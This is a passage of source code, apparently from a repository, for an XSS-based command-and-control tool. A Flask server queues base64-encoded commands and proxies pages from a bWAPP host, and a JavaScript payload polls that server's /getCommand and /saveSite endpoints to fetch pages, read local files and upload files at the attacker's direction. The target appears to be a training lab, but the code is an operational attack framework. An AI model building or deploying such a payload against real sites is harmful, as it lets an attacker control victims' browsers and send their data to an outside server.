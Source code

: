 ```
    return ""

@app.route("/setSiteCommand", methods=['GET'])
def setSiteCommand():
    global command
    global isNewFileDownloaded
    global downloadedSite
    command = ""
    requestArgs = request.args
    siteValue = ""

    for index,i in enumerate(requestArgs.keys()):
        if index == 0:
            siteValue = requestArgs[i]
        else:
            siteValue = siteValue + "&" + i + "=" + requestArgs[i]
    command = "command=getSite&site=" + encodeBase64(siteValue)
    while not isNewFileDownloaded:
        time.sleep(1)
    isNewFileDownloaded = False

    downloadedSite = downloadedSite.replace('<a href="','<a href="http://127.0.0.1:5000/setSiteCommand?site=http://bee/bWAPP/')
    return downloadedSite
```

XSS:

```
serverURL = "http://127.0.0.1:5000"
commandUrl = serverURL + "/getCommand"
saveSiteUrl = serverURL + "/saveSite"
var command = "" 
var lfiFile = ""
var exit = false
var value = ""
var key = ""
var base64File = ""
var uploadFileName = ""
var contentType = ""
var site = ""

const COMMAND = "command"
const LFIFILE = "lfiFile"
const VALUE = "value"
const KEY = "key"
const BASE64FILE = "base64File"
const UPLOADFILENAME = "uploadFileName"
const CONTENTYPE = "contentType"
const SITE = "site"

function parseCommand (element) {
    element = element.split("=");
    if (element[0] == COMMAND) {
        command = element[1];
    }
    if (element[0] == LFIFILE) {
        lfiFile = element[1];
    }
    if (element[0] == VALUE) {
        value = element[1];
    }
    if (element[0] == KEY) {
        key = element[1];
```